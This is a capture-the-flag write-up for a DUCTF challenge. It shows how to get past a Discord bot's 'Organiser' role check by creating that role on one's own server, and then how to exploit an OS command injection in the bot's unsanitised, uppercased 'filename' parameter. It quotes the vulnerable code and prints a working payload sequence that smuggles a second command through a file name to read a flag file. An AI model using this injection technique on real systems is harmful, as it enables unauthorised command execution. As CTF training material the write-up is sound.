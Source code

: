 # Slash Flag Writeup

1. Find the storage bot on the DUCTF discord server.
2. The about me section has the github link for the storage bot
3. Reading the code, you will find that only users with the role with the name "Organiser" can execute commands.

```js
// /events/interactionCreate.js - line 19
const isOrganiser = roles.some((a) => {
    return a === "Organiser";
});

if (!isOrganiser) {
    return await interaction.reply("You're not an organiser so you can't use this bot.");
}
```

4. Attempting to add the bot to your own server will be successful meaning that it is a public bot. This will allow us to create a role with the name "Organiser" on our own server.
5. Now that we can execute slash commands on the bot you will find the source code for these commands on the github repository.
6. Reading the code, you will notice the "create" command is vulnerable to OS command injection via the "filename" parameter. This is because parameters are usually sanitised with the quote function from the "shell-quote" library however, the "filename" parameter is not.

```js
// /commands/create.js - Line 27
const filename = interaction.options.getString("filename").toUpperCase();
const text = quote(interaction.options.getString("text").split(" "));

if (text.length > FILE_LIMIT) {
    return await interaction.reply("Sorry your text is too big aka I don't have enough money to give to Google :)");
}

try {
    await runCommand(`echo '${text}' > ${filename}`, interaction.guildId);
```

7. The fact that filename is turned to all uppercase makes this challenge a bit tricky. OS commands are case-sensitive meaning that our payload will always be uppercase. What we can do instead is to write a script in a file to run whatever commands we want and source the script, redirecting the output to another file to read.

```
/create "A" "cat /flag/flag.txt"
/create "B;. ./A > C" "whatever"
/open "C"
```
8. This should output the flag as the contents of the "C" file.
